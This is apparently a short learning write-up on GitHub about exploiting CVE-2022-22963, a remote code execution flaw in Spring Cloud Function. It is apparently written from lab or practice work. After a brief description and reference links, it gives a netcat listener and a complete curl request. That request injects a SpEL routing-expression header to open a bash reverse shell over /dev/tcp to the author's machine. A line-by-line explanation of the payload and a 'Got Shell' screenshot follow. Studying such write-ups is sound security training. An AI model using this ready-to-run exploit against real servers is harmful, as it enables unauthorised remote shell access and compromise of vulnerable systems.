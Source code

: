 # Initial Access 101: Exploiting ****CVE-2022-22963**** Vulnerability

## Introduction

I was practicing and learning when I encountered a new vulnerability. I discovered a vulnerability called 'Local File Inclusion' (LFI) in a web application. During my exploration, I found a file named pom.xml, which I was unaware of, So after some research i found out that it is an XML file that contains information about the project and configuration details used by Maven to build the project. 

Looking through the content of file and searching on google about the spring framework boot exploit, after researching i found a poc on github for **CVE-2022-22963.**

### **CVE-2022-22963:**

In Spring Cloud Function versions 3.1.6, 3.2.2 and older unsupported versions, when using routing functionality it is possible for a user to provide a specially crafted SpEL as a routing-expression that may result in remote code execution and access to local resources.

References:

https://0x1.gitlab.io/exploit/SpringBoot-RCE/ 

https://github.com/me2nuk/CVE-2022-22963

https://nvd.nist.gov/vuln/detail/CVE-2022-22963

## Exploitation:

Starting the listener. 

```bash
nc -lvnp 443
```

Running the payload which will call back to my machine.

```bash
curl -X POST http://10.10.10.10:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(new String[]{"/bin/bash","-c","exec /bin/bash -i &>/dev/tcp/10.10.10.10/443 <&1"})' --data-raw 'data' -v
```
**Explaination**:

- The **`-H`** flag is used to specify a header for the request. In this case, it's setting the **`spring.cloud.function.routing-expression`** header to a specific value.

- The value of the header is a Spring Expression Language (SpEL) expression. It uses the **`T()`** notation to call a specific Java class and invoke a method. In this case, it's calling **`java.lang.Runtime.getRuntime().exec()`**.

- The **`exec()`** method is used to execute a command on the operating system. The command being executed is **`/bin/bash -c 'exec /bin/bash -i &>/dev/tcp/10.10.10.10/443 <&1'`**. This command is attempting to establish a reverse shell connection

- The `--data-raw` flag specifies the raw data that will be included in the request body. In this case, it's set to 'data'.

- The -v flag is used to enable verbose mode, which provides more detailed output during the request.


![p](https://github.com/Strange-0/initialaccess101/assets/76517909/366c8103-c0f3-401b-ab34-2b67e8589aba)

Got Shell

![i](https://github.com/Strange-0/initialaccess101/assets/76517909/13752b75-9f82-4241-8839-e11099bea890)
